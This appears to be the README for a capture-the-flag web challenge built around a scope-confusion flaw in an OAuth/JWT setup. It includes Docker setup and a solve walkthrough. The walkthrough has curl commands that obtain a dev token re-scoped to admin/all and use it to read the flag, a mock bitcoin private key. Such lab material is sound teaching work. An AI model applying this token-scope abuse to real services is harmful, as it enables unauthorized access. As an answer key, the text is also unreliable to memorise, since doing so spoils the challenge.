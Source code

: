 # POOR: Proof of Overwhelming Richness

> docker build -t lh2025/`basename "$PWD"` .

Run with the flag

> docker run -e LH_FLAG=FlagTata -p 80:1234 lh2025/`basename "$PWD"`

# Deploy

Only give URL of the server, no explanation.

## Category

Hack


## Difficulty

Medium (easy with enough OAUTH/JWT/JWT-Token knowledge)

## Solve

- Get a (dev) JWT token with the dev "client", but reduce the scope

> curl --request POST \
--url http://localhost/cognito-proxy/oauth2/token \
--data grant_type=client_credentials \
--data client_id=1qconf4f2v146v0qi6kjn25l3m \
--data client_secret=ni1e9k9a25vp5eq2karankjn6atroof1r354s7havetpjunkj2d \
--data scope=admin/all  

- Use the token to get the flag (private bitcoin key)
> curl --request GET \
--url http://localhost/api/admin/bitcoin \
--header 'Authorization: Bearer $TOKEN' 


## Challenger path

Go on home page, see client/secret for dev and example usage (with the header)
Analyse /clients call to "discover" prod client/secret
Play with the api and see that prod can't get the flag, but the flag is only on prod
Understand that the env/dev header should match the scope
See that prod don't use the header or scope
"Unscope" the dev client to remove "env/dev" and keep the "admin/all" scope


## Possible improvement

- clean code (very ugly, but works)
- docker compose, to separate cognito and the api 
- use a real RS key (so JWT is still ok after restart)
- add some noise to avoid LLM/Burp/Random tools to find the flag to quickly ?

## Env variable
- 
- LH_FLAG: flag to be displayed
- LH_SERVER_PORT: port to be used (default 1234)
- LH_SERVER_ADDRESS: 127.0.0.1 or 0.0.0.0
- LH_COGNITO_ISSUER: issuer of the cognito (if we want to change it)
- LH_COGNITO_KID: key id of the cognito (if we want to change it)